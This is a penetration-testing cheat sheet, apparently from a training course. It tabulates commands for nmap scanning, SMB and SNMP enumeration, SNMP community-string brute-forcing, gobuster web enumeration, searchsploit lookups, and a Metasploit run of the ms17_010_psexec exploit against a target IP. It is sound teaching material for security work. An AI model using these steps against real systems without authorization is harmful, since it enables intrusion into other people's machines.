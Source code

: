 
---

## Pentesting Commands

### Service Scanning
| **Command**                           | **Description**                         |
|---------------------------------------|-----------------------------------------|
| `nmap 10.129.42.253`                  | Run nmap on an IP                       |
| `nmap -sV -sC -p- 10.129.42.253`      | Run an nmap script scan on an IP        |
| `locate scripts/citrix`               | List various available nmap scripts     |
| `nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP |
| `netcat 10.10.10.10 22`               | Grab banner of an open port             |
| `smbclient -N -L \\\\10.129.42.253`   | List SMB shares                         |
| `smbclient \\\\10.129.42.253\\users`  | Connect to an SMB share                 |
| `snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP           |
| `onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string         |

### Web Enumeration
| **Command**                           | **Description**                         |
|---------------------------------------|-----------------------------------------|
| `gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` | Run a directory scan on a website |
| `gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website |
| `curl -IL https://www.inlanefreight.com` | Grab website banner                   |
| `whatweb 10.10.10.121`                | List details about the webserver/certificates |
| `curl 10.10.10.121/robots.txt`        | List potential directories in robots.txt |
| `ctrl+U`                              | View page source (in Firefox)          |

### Public Exploits
| **Command**                           | **Description**                         |
|---------------------------------------|-----------------------------------------|
| `searchsploit openssh 7.2`            | Search for public exploits for a web application |
| `msfconsole`                          | MSF: Start the Metasploit Framework     |
| `search exploit eternalblue`          | MSF: Search for public exploits in MSF  |
| `use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module        |
| `show options`                        | MSF: Show required options for an MSF module |
| `set RHOSTS 10.10.10.40`              | MSF: Set a value for an MSF module option |
| `check`                               | MSF: Test if the target server is vulnerable |
| `exploit`                             | MSF: Run the exploit on the target server |

---